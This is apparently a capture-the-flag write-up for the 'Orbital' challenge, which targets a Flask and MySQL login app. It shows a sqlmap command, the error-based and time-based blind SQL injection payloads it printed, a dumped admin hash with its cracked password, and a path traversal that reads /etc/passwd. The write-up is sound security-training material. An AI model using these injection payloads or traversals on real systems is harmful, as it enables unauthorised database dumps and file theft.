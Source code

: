 ## Orbital
> Solved by Legend

Challenge description


> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

In this challenge also a login page is their.

![](https://i.imgur.com/ak8NBt8.png)


And with no user info or details in source code I checked the docker files.

This challenge is similar to the `Drobots` challenge. It’s running `Flask` application with `MySQL`. So I looked into the docker file.

The `config.py` contains the database config info.

![](https://i.imgur.com/taRJF8c.png)


And `database.py` contain the database logic along with the hint but it is modified a little.
This time the `password` is getting verified with `passwordVerify`.

![](https://i.imgur.com/B5AErEg.png)


I again saved the request and gave it to `sqlmap`  which gave me the token and also bruteforced the password.


    sqlmap -r ./req --dbms=mysql -D orbital -T users --dump


    ---
    Parameter: JSON username ((custom) POST)
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: {"username":"a"="a" AND (SELECT 2720 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(2720=2720,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "a"="a","password":"a"}
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"username":"a"="a" AND (SELECT 1000 FROM (SELECT(SLEEP(5)))dfxy) AND "a"="a","password":"a"}
    ---


    +----+-------------------------------------------------+----------+
    | id | password                                        | username |
    +----+-------------------------------------------------+----------+
    | 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
    +----+-------------------------------------------------+----------+

Now once logged in the functionality of the website was different.

![](https://i.imgur.com/tDoI12L.png)


Now I checked the `routes.py` file which contained a logic of the application. Here in the logic of communication the hint was given that the file escape for characters are not there for the filename. 

![](https://i.imgur.com/zFxOjWB.png)


Then I tried the path traversal to get the `/etc/passwd` file. It worked. 

![](https://i.imgur.com/yh8DtGq.png)


For this challenge they changed the location of the flag name from `flag.txt` to `signal_sleuth_firmware` in root which is written in the docker config.


    COPY flag.txt /signal_sleuth_firmware

Now we need to get the flag.

![](https://i.imgur.com/BFlcwv3.png)
